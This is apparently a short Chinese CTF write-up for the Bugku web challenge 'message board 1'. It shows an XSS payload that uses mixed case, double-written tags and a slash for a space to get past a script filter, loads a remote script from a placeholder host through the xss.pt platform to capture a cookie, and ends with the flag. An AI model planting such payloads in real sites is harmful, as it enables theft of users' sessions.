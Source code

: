 ```yaml
---
title: bugku-WEB-留言板1
date: 2023-01-01 16:00 +0800
categories: [CTF,WEB]
tags: [bugku,WEB]
img_path: /assets/images/1.assets
---
```




在xss.pt 注册一个账号，配置XSS

![img](clip_image002.jpg)

![img](clip_image004.jpg)

我们复制srcipt这一条，

```html
<sCRiPt sRC=//xx.xx/xxxx></sCrIpT>
```

我们会发现过滤了script和空格，进行其他代码尝试，会发现 `( )` 括号也进行了过滤

我们有**大小写+双写**可以过滤srcipt，空格使用**反斜杠**进行绕过

```html
<sCRisCRiPtPt/sRC=//xx.xx/xxxx></sCrsCrIpTIpT>
```

测试情况

![img](clip_image006.jpg)

 

![img](clip_image008.jpg)

flag=flag%7B3f82f0d1288d080024d1ee51d4499228%7D;

flag{3f82f0d1288d080024d1ee51d4499228}